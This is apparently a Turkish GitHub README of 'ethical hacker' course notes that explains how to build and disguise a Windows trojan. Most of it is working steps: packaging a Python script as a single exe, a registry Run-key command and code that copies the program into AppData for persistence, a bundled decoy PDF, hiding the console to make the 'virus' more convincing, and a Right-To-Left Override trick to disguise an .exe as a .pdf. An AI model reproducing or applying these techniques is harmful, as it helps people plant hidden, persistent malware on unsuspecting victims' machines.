 # ethical-hacker
Bu projede ,başlangıçta, birçok kursu (özellikle Atıl Samancıoğlu'nun kursları) takip ederek yazdığım kodlar/dökümanlar vardır. Bunları kendim geliştireceğim ve yeni scriptler/dökümanlar ekleyeceğim.

### Exe'ye Çevirme İşlemi (in Windows)
`pip install pyinstaller`

pyinstaller.exe'nin konumunu buluyoruz (.../Scripts/pyinstaller.exe).

`...\pyinstaller.exe PythonFile.py --onefile`

### Bilgisayar Her Açıldığında Programımızı Çalıştırmayı Sağlama (in Windows)
`reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v isim /t REG_SZ /d "C:\...\myexe.exe"`

Bu komut bir exe'yi her açılışta çalıştırmamıza yarıyor. Yapmamız gereken uygulamamızı gizli bir klasöre kopyalamak ve bu yeni dosyanın yolunu regedit'e eklemek. Kodda bunu yapmak için;
```
...

import subprocess
import os
import shutil
import sys

new_file = os.environ["appdata"] + "\\myexe.exe"
if not os.path.exists(new_file):
	shutil.copyfile(sys.executable,new_file)
	regedit_command = "Yukarıdaki regedit komutu (Sonundaki yolu new_file ile vereceğiz)"+new_file
	subprocess.call(regedit_command, shell=True)
...
```

### Dosyaya PDF Eklemek (in Windows)
Bunu paketleme sırasında yapıyoruz

`...\pyinstaller.exe PythonFile.py --onefile --add-data "...\dosya.pdf;."`	(;. ek olarak koymamız gerekiyor)

Bu tek başına yeterli değil. Aynı zamanda kodumuzun içinde exe'ye basıldığında bu dosyanın gösterilmesini sağlayacağız.
```
def open_added_file():
	added_file = sys._MEIPASS + "\\dosya.pdf"
	subprocess.Popen(added_file,shell=True)

...

open_added_file()
```
Ayrıca yukarıdaki komuta --noconsole eklersek terminal açılmasını engellemiş oluruz. Daha inandırıcı bir virüs yazmış oluruz. subprocess'in bir metodunda özel bir durum var, --noconsole yeterli olmuyor. Bu komut check_output. BU komutu yazarken de;

`degisken = subprocess.check_output("command",shell=True,stderr=subprocess.DEVNULL,stdin=subprocess.DEVNULL)`

### İkon Değiştirmek (in Windows)
Yukarıdaki paketleme komutuna --icon "...\icon_dosyasi.ico" eklememiz yeterlidir.

### Uzantıyı Değiştirmek (in Kali Linux)
`apt-get install gnome-characters`

Leafpad'da uygulamamızın ismini yazıyoruz. MyVirus.exe gibi.
Sonrasında düzenleme yapıyoruz. Yazıyı MyVirusfdp.exe şeklinde düzenliyoruz.
Characters uygulamasını açıyoruz. right-to-left seçeneğini aratıyoruz ve Right To Left Override'ı seçiyoruz. Copy Character diyoruz.
Sonrasında imlecimizi fdp.exe'nin başına koyuyoruz ve Ctrl+V yapıyoruz. Yazının değiştiğini görmeiz gerekiyor (MyVirusexe.pdf şeklinde). Sonrasında bunu kopyalıyoruz ve dosyamızı isimlendiriyoruz.
